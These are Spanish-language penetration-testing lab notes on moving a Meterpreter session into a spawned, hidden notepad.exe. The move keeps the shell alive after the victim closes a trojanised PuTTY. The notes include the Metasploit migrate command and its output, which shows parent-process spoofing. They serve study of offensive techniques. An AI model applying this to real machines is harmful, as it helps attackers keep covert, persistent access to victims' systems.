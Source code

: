 # Migración de meterpreter a otro proceso

Siguiendo la practica anterior, cuando el usuario cierra el programa se nos va la sesion, pero para que no pase esto podremos migrar a otro proceso para que cuando dicho usuario cierre el programa a nosotros no nos afecte y podamos seguir teniendo la shell.

Si nosotros dentro de la sesion de `meterpreter` ponemos el siguiente comando:

```shell
run post/windows/manage/migrate
```

Info:

```
[*] Running module against DESKTOP-EALA4JN
[*] Current server process: puttyX.exe (7156)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 1296
[+] Successfully migrated into process 1296
```

Lo que esta haciendo es que esta creando un nuevo proceso oculto, en este caso llamado `notepad.exe` y migra este `meterpreter` a dicho proceso, por lo que cuando se cierre el programa no le va a pasar nada a la conexion.

Este sera el proceso donde esta la shell:

<figure><img src="../../.gitbook/assets/image (138) (1).png" alt=""><figcaption></figcaption></figure>

Por lo que si se cierra ese, se nos va la conexion.

